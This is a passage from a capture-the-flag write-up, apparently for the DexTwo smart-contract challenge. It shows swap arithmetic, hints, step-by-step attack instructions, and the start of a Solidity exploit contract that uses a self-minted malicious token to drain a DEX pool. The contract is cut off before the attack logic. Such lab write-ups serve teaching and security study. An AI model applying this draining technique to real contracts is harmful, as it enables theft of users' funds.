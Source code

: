 Perfect symmetry! ✨

### Alternative Approach

We could also use 100 initial tokens:
```
Transfer: 100 malicious to DexTwo
Swap 1: 100 malicious → 100 token1
  (100 * 100) / 100 = 100 token1 ✅
  
Now DexTwo has 200 malicious
Swap 2: 200 malicious → 100 token2
  (200 * 100) / 200 = 100 token2 ✅
```

Both work, but using 1 token is more elegant!

## Hint for Thinking

Ask yourself:
* What validation was removed from the original Dex?
* Can we use a token we control instead of token1/token2?
* How can we set up the perfect ratio for complete drainage?
* What happens if we control both the token supply and the initial ratio?

## Disclaimer

If you want to solve this challenge on your own, stop reading here and try to implement a solution based on the hints above. The complete solution is provided below.

---

## Solution

### The Attack Vector

Our solution uses a malicious token to drain both legitimate tokens:

1. Deploy a malicious ERC20 token that we control
2. Mint ourselves plenty of malicious tokens (e.g., 400)
3. Transfer a small amount to DexTwo to set up the ratio
4. Swap malicious tokens for all token1
5. Swap more malicious tokens for all token2
6. Mission accomplished!

### Complete Exploit Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IDexTwo {
    function token1() external view returns (address);
    function token2() external view returns (address);
    function swap(address from, address to, uint256 amount) external;
    function balanceOf(address token, address account) external view returns (uint256);
}

contract MaliciousToken is ERC20 {
    constructor() ERC20("Malicious Token", "MAL") {
        _mint(msg.sender, 400 * 10**decimals());
    }
```